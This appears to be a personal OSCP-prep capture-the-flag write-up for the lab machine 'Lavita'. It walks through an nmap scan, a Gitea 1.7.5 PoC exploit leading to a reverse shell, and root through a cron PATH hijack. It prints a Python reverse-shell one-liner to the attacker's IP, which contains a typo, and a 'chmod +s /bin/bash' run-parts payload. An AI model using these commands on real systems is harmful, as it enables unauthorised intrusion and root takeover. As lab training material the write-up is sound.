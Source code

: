```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: []
---
```

**Start 09:47 03-01-2025**

---
```
Scope:
192.168.196.67
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.196.67 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE  SERVICE REASON       VERSION
21/tcp   open   ftp     syn-ack      ProFTPD 1.3.5b
22/tcp   open   ssh     syn-ack      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp   closed domain  conn-refused
2222/tcp open   ssh     syn-ack      Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=c8575ef77f13f677; Path=/; HttpOnly
|     Set-Cookie: _csrf=yQu0cXuU-FS39aos97X2UjKsYrw6MTczNTg5NDA3NzY3OTMxODE1MQ%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:47:57 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:47:57 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|     navigator.serviceWorker.register('/serviceworker.js').then(function(registration) {
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=adb8b86ceaefc313; Path=/; HttpOnly
|     Set-Cookie: _csrf=XoE1yPfF5RrD9PGqxmDhOJIFlAU6MTczNTg5NDA4MjgzMjkwMjYzMw%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:48:02 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:48:02 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|_    navigator.serviceWorker.register('/serviceworker.js').then(function(registration
```

I tried to log in as `anonymous` into FTP with no luck:

![](../../../assets/93711ad2619920b8c7f77432c534f440.png)

Then I started enumerating services and found that **Gitea 1.7.5** is running on **port 3000**.

![](../../../assets/3c628a6989ac321dc676957398e0e4ba.png)

I checked for exploits and found one:

![](../../../assets/692df4164f2603a752476ebd33ccb127.png)

As for further enumeration I did not find anything useful for the `Dropbear` SSH service.


# Initial Foothold

## 3000/TCP - HTTP

I downloaded the PoC and started modifying it:

![](../../../assets/68817665ebf460c4fb4276e123fb9fa3.png)

![](../../../assets/14636249f3af98dc9bdd37f9cc30a6dc.png)

I now had to create a `shell` payload that I could use to get a reverse shell.

![](../../../assets/b8354c0a8bab1915e1f58cca0ba84d34.png)

I booted up my `nc` listener and got to work.

![](../../../assets/5432ef5afebb4c0409de3437c7348143.png)

Unfortunately after the **Succesful login** I got an error.

>[!fail]
>I went too fast, the premise is to create an account first.

I registered a new account:

```
test1
test123
```

![](../../../assets/1f8f2c2011f06a9889487b9bbb16d48f.png)

I then had to modify the PoC again to include the newly created user.

![](../../../assets/a3e324a77a3d30c0bc3d8fb06594604b.png)

For whatever reason the exploit still wouldn't fire correctly:

![](../../../assets/0f382a644ec896802899222aacc2195a.png)

I went ahead and reverted the machine.

After reverting the machine another problem showed up. The exploit succesfully uploaded but the reverse shell wouldn't fire. Time to try another payload:

![](../../../assets/83e1994d59dcca4991649ac59efb1fc1.png)

After many many reverts I FINALLY managed to get a shell:

![](../../../assets/802a1357ce112b203ef404bbb73dcf87.png)

I then upgraded the shell using `script -c bash /dev/null`:

![](../../../assets/16479e286e66db6b968b527400813d8f.png)

### local.txt

![](../../../assets/fec11203b599639f90c321a9ec36b0e5.png)


# Privilege Escalation

Now that we have access we can get to enumerating the system and finding a way to exploit it.

I started off with `sudo -l` which gave me a surprise right away:

![](../../../assets/770b5af9f918a96a01cbfd12a00ee195.png)

I then went ahead and enumerated SUID/GUID binaries:

![](../../../assets/1ebef2317cf36cfa80342b5325e9dcc2.png)

I could've gone and enumerated it manually but instead I downloaded `linpeas.sh`:

![](../../../assets/3a1c4969ff10837557db3e64033f2809.png)

Right away I noticed the following:

![](../../../assets/39f665cdfb73e54d57ed808c3dacb5bb.png)

As well as:

![](../../../assets/b9f29aa527753250303754e3bdf1bf85.png)

>[!note]
>We see `/usr/bin/local` as an interesting writable directory. It’s also set up in the cron path in the second position.

I went ahead and enumerated the cron jobs:

![](../../../assets/1848e5ae7f316e74640af772b3828600.png)

![](../../../assets/eca3adfec6d564bab7cd33dbc229c7fb.png)

>[!important]
>At the top we notice the cron job `cd / && run-parts --report /etc/cron.hourly`. This means we could write a `run-parts` executable within `/usr/local/bin` which will then get executed within the hour and give us a `root` shell, as it the cron job is owned by `root`.

Let's put this in practice:

```bash
python3 -c 'import socket,subprocess,os;s=scoket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",2223));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

I made this in my Kali machine, then transferred it over and `chmod 777` the file and then waited for a root shell.

>[!fail]
>This took a really long time without any effect, I also tried a `msfvenom` payload to no avail.

## Succesful approach

```bash
echo "chmod +s /bin/bash" > run-parts
chmod +x run-parts

ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```

We can now go ahead and run `bash -p` to elevate our shell:

![](../../../assets/f8b033013bf10b5576c87421d1c3fabe.png)

>[!success]
>We have FINALLY after many reverts successfully escalated our privileges.

### proof.txt

![](../../../assets/d95e28fefce7a7d70046458ae025013d.png)

---

**Finished 12:01 03-01-2025**

[^Links]: [[OSCP Prep]]  

#cron #priv-esc #gitea 



